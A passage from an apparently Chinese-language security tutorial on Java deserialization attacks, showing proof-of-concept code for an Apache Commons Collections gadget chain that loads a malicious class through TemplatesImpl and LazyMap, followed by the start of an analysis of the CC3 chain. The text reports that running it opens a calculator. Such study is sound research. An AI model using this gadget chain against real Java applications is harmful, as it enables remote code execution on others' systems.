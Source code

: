 ```
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 lazyMap.remove("key");  
  
 // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
 Field factoryField = lazyMapClass.getDeclaredField("factory");  
 factoryField.setAccessible(true);  
 factoryField.set(lazyMap, chainedTransformer);  
  
 serialize(expMap);  
 unserialize("ser.bin");  
 }  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

成功弹出计算器。

## 0x07 回归正题 ———— CC3 链

> 在去看 yso 的 CC3 链子之前，我觉得应该给自己多一点思考空间。

### 1. CC3 链分析

因为只需要调用 `TemplatesImpl` 类的 `newTransformer()` 方法，便可以进行命令执行，所以我们去到 `newTransformer()` 方法下，find usages。
